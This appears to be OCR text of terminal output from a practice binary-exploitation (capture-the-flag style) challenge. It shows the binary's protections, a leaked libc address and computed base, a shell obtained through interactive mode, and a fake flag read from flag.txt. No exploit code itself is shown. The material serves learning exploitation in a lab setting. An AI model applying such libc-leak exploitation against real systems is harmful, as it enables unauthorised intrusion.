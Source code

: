 ```
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
plt_got:0x404018
leaked __libc_start_main_addr+234:0x7f2a4fee5e4a
libc_base:0x7f2a4febe000
[*] Switching to interactive mode
uid=1000(root) gid=1000(root) groups=1000(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner)
$ cat flag.txt
fakeflag{lack_of_practices}

```

